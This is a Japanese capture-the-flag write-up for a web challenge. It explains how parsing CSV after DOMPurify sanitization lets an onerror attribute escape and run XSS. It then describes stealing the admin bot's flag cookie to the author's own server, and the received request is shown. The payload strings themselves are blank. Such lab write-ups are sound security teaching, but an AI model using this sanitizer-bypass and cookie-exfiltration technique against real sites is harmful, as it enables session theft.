

# csv2json:Web:100pts
alpaca, bongo, capybara  

[csv2json.tar.gz](csv2json.tar.gz)  

Challenge: [http://34.170.146.252:6716](http://34.170.146.252:6716), Admin bot: [http://34.170.146.252:30845](http://34.170.146.252:30845)  

# Solution
ソースファイルとURLが渡される。  
Botがあるため、XS系の問題とわかる。  
サイトにアクセスすると、csvをjsonにしてくれるサービスのようだ。  
  
ページのソースを表示すると以下の通りであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>csv2json</title>
        <script src="https://cdn.jsdelivr.net/npm/dompurify@3.2.4/dist/purify.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/PapaParse/5.4.1/papaparse.min.js"></script>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/light.min.css" />
    </head>
    <body>
        <h1>csv2json</h1>
        <form action="/" method="GET">
            <textarea name="csv" placeholder="alpaca, bongo, capybara"></textarea>
            <input type="submit" value="Convert" />
        </form>
        <pre id="result" style="background-color: whitesmoke; padding: 1em"></pre>
        <script>
            const params = new URLSearchParams(location.search);
            if (params.get("csv")?.length > 0)
                result.innerHTML = JSON.stringify(Papa.parse(DOMPurify.sanitize(params.get("csv"))).data);
        </script>
    </body>
</html>
```
クエリ`csv`を`DOMPurify.sanitize`で無害化したのち、`Papa.parse`でcsvにパースして`JSON.stringify`している。  
無害化の後に変更が加わっているためXSSが起こせそうだ。  
試しに``を送信すると`[[""]]`となり、HTMLでは``となった。  
タグを少し壊し``としてみると`[[""]]`となり、HTMLでは``となる。  
なんと属性値だった`onerror`が外に出てきてしまっている。  
`\&quot;`によりalertしないため、うまく動くように末尾を`//`で終わらせてやればよい。  
XSSが達成できたため、次にフラグの場所を確認する。  
Botのソースファイル中に以下の記述がみられる。  
```js
~~~
  try {
    const page = await context.newPage();
    await page.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
    });
    await page.goto(url, { timeout: 3_000 });
    await sleep(5_000);
    await page.close();
  } catch (e) {
    console.error(e);
  }
~~~
```
cookieにあるようなので``のように持ち出してやればよい。  
Botにクエリを報告すると、以下のリクエストが自身のサーバへ到達した。  
```
GET
/?s=FLAG=Alpaca{p4p4_s3mpl1c1t4}
```
flagが得られた。  

## Alpaca{p4p4_s3mpl1c1t4}